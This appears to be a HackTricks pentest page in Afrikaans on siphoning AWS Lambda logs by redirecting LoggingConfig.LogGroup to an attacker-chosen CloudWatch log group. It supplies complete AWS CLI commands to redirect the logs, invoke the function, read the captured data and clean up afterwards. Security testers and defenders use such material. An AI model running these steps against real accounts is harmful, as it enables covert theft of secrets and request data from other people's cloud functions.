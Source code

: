 # AWS Lambda – Log Siphon via LoggingConfig.LogGroup Redirection

{{#include ../../../../banners/hacktricks-training.md}}

Misbruik die gevorderde logbeheer van `lambda:UpdateFunctionConfiguration` om 'n funksie se logs na 'n deur die aanvaller gekose CloudWatch Logs log group om te lei. Dit werk sonder om kode of die uitvoeringsrol te verander (die meeste Lambda-rolle sluit reeds `logs:CreateLogGroup/CreateLogStream/PutLogEvents` in via `AWSLambdaBasicExecutionRole`). As die funksie geheime of request bodies uitskryf, of met stack traces crash, kan jy dit vanaf die nuwe log group versamel.

## Benodigde permissies
- lambda:UpdateFunctionConfiguration
- lambda:GetFunctionConfiguration
- lambda:InvokeFunction (of vertrou op bestaande triggers)
- logs:CreateLogGroup (dikwels nie nodig as die funksie se rol dit het nie)
- logs:FilterLogEvents (om gebeurtenisse te lees)

## Stappe
1) Skep 'n sink log group
```
aws logs create-log-group --log-group-name "/aws/hacktricks/ht-log-sink" --region us-east-1 || true
```
2) Herlei die logs van die teikenfunksie
```
aws lambda update-function-configuration \
--function-name <TARGET_FN> \
--logging-config LogGroup=/aws/hacktricks/ht-log-sink,LogFormat=JSON,ApplicationLogLevel=DEBUG \
--region us-east-1
```
Wag totdat `LastUpdateStatus` na `Successful` verander:
```
aws lambda get-function-configuration --function-name <TARGET_FN> \
--query LastUpdateStatus --output text
```
3) Roep die sink aan en lees daarvan
```
aws lambda invoke --function-name <TARGET_FN> /tmp/out.json --payload '{"ht":"log"}' --region us-east-1 >/dev/null
sleep 5
aws logs filter-log-events --log-group-name "/aws/hacktricks/ht-log-sink" --limit 50 --region us-east-1 --query 'events[].message' --output text
```
## Impak
- Stiekem herlei alle toepassings-/stelsel-logs na 'n log group wat jy beheer, deur die verwagting te omseil dat logs slegs in `/aws/lambda/<fn>` beland.
- Exfiltrate sensitiewe data wat deur die funksie gedruk word of in foute aan die lig kom.

## Opruiming
```
aws lambda update-function-configuration --function-name <TARGET_FN> \
--logging-config LogGroup=/aws/lambda/<TARGET_FN>,LogFormat=Text,ApplicationLogLevel=INFO \
--region us-east-1 || true
```
## Aantekeninge
- Logging controls maak deel uit van Lambda’s `LoggingConfig` (LogGroup, LogFormat, ApplicationLogLevel, SystemLogLevel).
- Standaard stuur Lambda logs na `/aws/lambda/<function>`, maar jy kan dit na enige log group name wys; Lambda (of die execution role) sal dit skep as dit toegelaat word.

{{#include ../../../../banners/hacktricks-training.md}}
